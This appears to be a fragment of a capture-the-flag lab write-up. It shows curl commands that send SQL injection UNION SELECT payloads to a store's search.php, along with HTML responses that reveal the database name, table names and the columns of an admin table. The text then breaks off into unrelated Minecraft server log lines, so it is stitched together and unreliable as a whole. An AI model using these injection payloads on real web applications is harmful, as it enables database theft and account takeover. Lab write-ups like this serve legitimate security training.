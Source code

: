 `curl --path-as-is -iskL -X $'POST' -H $'Content-Type: application/x-www-form-urlencoded' --data-binary $'search=%27+UNION+SELECT+1%2Cdatabase()%2C3%2C4+--+-&submit=' $'http://store.cybercrafted.thm/search.php/'`

```jsx
[REDACTED] - MORE
                    <td>webapp</td>
                    <td>3</td>
                    <td>4</td>
                </tr>
          </table>
        </div>
    </div>
</body>
</html>

```

`curl --path-as-is -iskL -X $'POST' -H $'Content-Type: application/x-www-form-urlencoded' --data-binary $'search=%27+UNION+SELECT+NULL%2CNULL%2CNULL%2Ctable_name+FROM+information_schema.tables+--+-&submit=' $'http://store.cybercrafted.thm/search.php/'`

```jsx
[REDACTED] - MORE

                <tr>
                    <td></td>
                    <td></td>
                    <td>table_lock_waits_summary_by_table</td>
                </tr>
                <tr>
                    <td></td>
                    <td></td>
                    <td>threads</td>
                </tr>
                <tr>
                    <td></td>
                    <td></td>
                    <td>user_variables_by_thread</td>
                </tr>
                <tr>
                    <td></td>
                    <td></td>
                    <td>users</td>
                    
                    <td></td>
                    <td></td>
                    <td>admin</td>
[REDACTED] - MORE
```

`curl --path-as-is -iskL -X $'POST' -H $'Content-Type: application/x-www-form-urlencoded' --data-binary $'search=%27+UNION+SELECT+NULL%2CNULL%2CNULL%2Ccolumn_name+FROM+information_schema.columns+WHERE+table_name%3D%27admin%27+--+-&submit=' $'http://store.cybercrafted.thm/search.php/'`


[12:58:13 INFO]: /tp: Teleports the given player (or yourself) to another player or coordinates
[12:58:13 INFO]: /unregister: 
[12:58:13 INFO]: /version: Gets the version of this server including any plugins in use
[12:58:13 INFO]: /weather: Changes the weather
[12:58:13 INFO]: /whitelist: Manages the list of players allowed to use this server
[12:58:13 INFO]: /xp: Gives the specified player a certain amount of experience. Specify <amount>L to give levels instead, with a negative amount resulting in taking levels.